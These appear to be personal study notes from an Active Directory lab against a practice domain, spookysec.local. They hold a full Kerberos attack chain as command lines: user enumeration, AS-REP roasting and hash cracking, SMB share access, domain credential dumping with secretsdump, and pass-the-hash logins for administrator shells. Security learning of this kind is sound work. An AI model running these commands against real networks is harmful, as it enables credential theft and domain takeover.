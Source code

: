 KERBEROS / ACTIVE DIRECTORY

OUTILS 
	SUITE IMPACKET :
		ASREProasting : ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set
			python3 /opt/impacket/examples/GetNPUsers.py
			
		
	BLOODHOUND 
	NEO4J
		apt install bloodhound neo4j
	ENUM4LINUX
		you know it my boyy
	KERBRUTE
		A tool to perform Kerberos pre-auth bruteforcing 
		https://github.com/ropnop/kerbrute
	SMBCLIENT
		

	
ENUM FOR NETBIOS DOMAIN NAME
	use enum4linux
	
SET DNS_DOMAIN_NAME (FOUND WITH NMAP -A) IN /ETC/HOSTS

ENUM FOR USERS VIA KERBEROS
	└─$ kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt
	spookysec.local is the DNS_Domain_Name (found with nmap -A)
	userlist.txt is a list of usernames

RETRIEVING KERBEROS TICKETS
	ASReproasting occurs when a user account has the privilege 
	"Does not require Pre-Authentication" set
	But i don't actually know how to find the privilege status
	└─$ python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.68.12 spookysec.local/svc-admin -no-pass
		- svc-admin in a valid username found previously
		- spookysec.local is the DNS_Domain_Name (found with nmap -A)
		
CRACK THE HASH
	The one i got in thise case was : Kerberos 5 AS-REP etype 23
	└─$ hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt --force 

ENUM SHARES WITH SMBCLIENT
	└─$ smbclient -L 10.10.72.208 --user svc-admin
	
LOG INTO SHARES WITH SMBCLIENT
	└─$ smbclient \\\\spookysec.local\\backup --user svc-admin
	- spookysec.local can also be the IP address
	- admin is a valid user and we have his password

ENUM FOR ADDITIONNAL INFORMATIONS WITH secretdump.py
	(Admit that we have password for the user backup)
	└─$ secretsdump.py -just-dc backup@spookysec.local
	
LOG IN WITH PSEXEC BY "PASSING THE HASH"
	└─$ psexec.py -hashes PUT_THE:HASH_HERE administrator@spookysec.local
	get cmd

LOG IN WITH EVIL-WINRM BY "PASSING THE HASH"
	└─$ evil-winrm -u administrator -H PUT_THE_HASH_HERE -i spookysec.local
	/!\ This only needs the second part of the NTLM hash
	get powershell
	
